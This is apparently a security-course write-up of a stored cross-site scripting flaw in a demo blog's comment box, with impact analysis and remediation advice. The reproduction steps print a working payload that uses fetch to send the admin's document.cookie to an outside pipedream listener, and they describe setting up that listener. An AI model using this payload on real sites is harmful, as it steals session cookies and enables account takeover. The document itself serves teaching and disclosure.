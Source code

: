 **CVSS Base Score: 7.4 (HIGH)**

### Steps to Reproduce
This vulnerability is found on the science-today.quoccabank.com domain, in the comment section of the page. Users can submit data through this field, to perform the attack.
- For this vulnerability, one should note the comment box and "Report to Admin" button are the two elements. By inspecting the cookies, we also notice that *HttpOnly* is not set. This means that cookies can be accessed through JavaScript.
![](https://i.imgur.com/xkmnDXK.png)
*HttpOnly is not set, thus cookies can be accessed*
- Some initial tests show that this field is vulnerable to Cross Site Scripting (XSS) injections. ```<ScRiPt>alert(1)</ScRiPt>``` will allow us to bypass the access control list and open an alert prompt. 
- Next, we need to setup a domain to which we can exfiltrate the desired cookie. Websites such as [pipedream](https://pipedream.com/) or [webhook](https://webhook.site) allow an attacker to simply setup a listening and public-facing domain easily.
- We then apply a fetch script directed to our domain with a query, concatenated with the viewer's cookie. A potential payload looks like:

```javascr=
<ScRiPt>fetch("https://en4wk9uin6mam8n.m.pipedream.net/?a=" + document.cookie)</ScRiPt>
```
- After submitting the payload by posting it as a comment and clicking`report this page to admin` button will execute the payload on the Admin's account and thus expose their cookies.
- One can check their hosted domain for any incoming traffic, which will contain the stolen cookie credential
![](https://i.imgur.com/PoAA3d4.png)
*Response returned to the specified domain*

### Impact
#### Technical Risk
The theft of an admin cookie essentially allows any user with this cookie to replace their own, granting them admin privileges to modify the site. This can prove chaotic to the domain as its effects are seen by everyone. More capable attackers could use an admin position here in order to try further attacks against associated domains which thus potentially endangers others.
#### Business Risk
Although this domain is nothing but a science blog, its audience may be impacted by any changes an attacker makes. Graffiti and vandalism could disrupt the user experience or tarnish the reputation of Quoccabank. Furthermore, if the site was to be disabled by the attacker, the user experience would decline drastically, affecting the user's perspective of Quoccabank's reliability.
### Remediation
The core of XSS threats are a result of untrusted data failing to be verified by the domain. Untrusted data includes that of direct user input, API calls and 3rd party systems, user influenced input (cookies, web storage, HTTP header values), Databases, Internal sources, Config files and more.

A well-secured site would ensure this data stays in 'slots' and cannot break out. Developers should not put untrusted data in places such as Scripts, HTML comments, attribute and tag names nor CSS itself.

HTML encoding is required for HTML bodies but other contexts requires attribute encoding (For HTML attributes), JavaScript encoding (For Javascript data values) or URL encoding (For HTML URL Parameters) in order to be well - protected.

